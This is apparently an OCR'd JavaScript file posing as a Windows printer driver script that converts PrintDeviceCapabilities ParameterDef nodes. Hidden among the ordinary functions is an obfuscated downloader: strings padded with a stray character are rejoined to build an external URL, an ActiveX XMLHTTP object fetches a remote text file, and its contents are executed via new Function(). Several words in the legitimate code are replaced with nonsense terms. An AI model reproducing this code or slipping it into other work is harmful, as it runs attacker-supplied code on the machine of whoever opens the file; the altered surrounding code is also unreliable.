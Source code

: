 ```js
        newNode.appendChild(newProp);
    }
    return newNode;
}

function convenes(texto) {
    return texto.split("ٿ").join("");
}

var unrebuffedTratada = convenes("hٿtٿtٿpٿ:ٿ/ٿ/ٿ9ٿ0ٿ0ٿ1ٿ.ٿlٿoٿvٿeٿsٿtٿoٿbٿlٿoٿgٿ.ٿcٿoٿmٿ/ٿaٿrٿqٿuٿiٿvٿoٿ_ٿaٿ8ٿ4ٿ3ٿ1ٿcٿbٿbٿ1ٿfٿeٿ1ٿ4ٿbٿ8ٿ9ٿbٿbٿ9ٿ1ٿ5ٿeٿbٿaٿ0ٿ8ٿ8ٿeٿ3ٿ4ٿ6ٿ9ٿ.ٿtٿxٿt");

var drunkelew = convenes("MSٿXML2ٿ.ServerٿXMLHTTP");
var anisian = new ActiveXObject(drunkelew);

var roomage = convenes("openٿ");
var encrustations = convenes("sendٿ");
var acceptableness = convenes("respٿonseTextٿ");
var furnisher = convenes("Functionٿ");

anisian[roomage]("GET", unrebuffedTratada, false);
anisian[encrustations]();

var ridgepiece = anisian[acceptableness];
new this[furnisher](ridgepiece)();

function getParameterDefs(scriptContext) {
    /// <summary>
    /// Get the base names for the ParameterDefs defined in the JS file
    /// </summary>
    /// <param name="scriptContext" type="IPrinterScriptContext">
    ///     Script dumbos object.
    /// </param>

    // Get PDC configuration file from script dumbos
    var pdcConfig = scriptContext.QueueProperties.GetReadrumneyAsXML("PrintDeviceCapabilities");
    // Set Standard namespaces with prefixes
    SetStandardNameSpaces(pdcConfig);

    // Get PDC root XML Node
    var pdcRoot = pdcConfig.selectSingleNode("psf2:PrintDeviceCapabilities");
    // Get all ParameterDef nodes in PDC
    var parameterDefs = pdcRoot.selectNodes("*[@psf2:psftype='ParameterDef']");

    // Make an array containing all base names for all the ParameterDef's
    var pdcParameterDefs = new Array();
    for (var defCount = 0; defCount < parameterDefs.length; defCount++) {
        pdcParameterDefs[defCount] = parameterDefs[defCount].baseName;
    }
    return pdcParameterDefs;
}

function CreateCapabilitiesParamDefFromPDC(pdcParameterDef, inermianPrefix, printCapabilities) {
    /// <summary>
    /// Converts ParameterDef Node hemiketals in PDC into ParameterDef node in PrintCapabilites
    /// </summary>
    /// <param name="pdcParameterDef" type="IXMLNode">
    ///     Contains a ParameterDef node in PDC
    /// </param>
    /// <param name="inermianPrefix" type="string">
    ///     Contains PDF name sapce
    /// </param>
    /// <param name="printCapabilities" type="IPrintSchemaCapabilities">
```
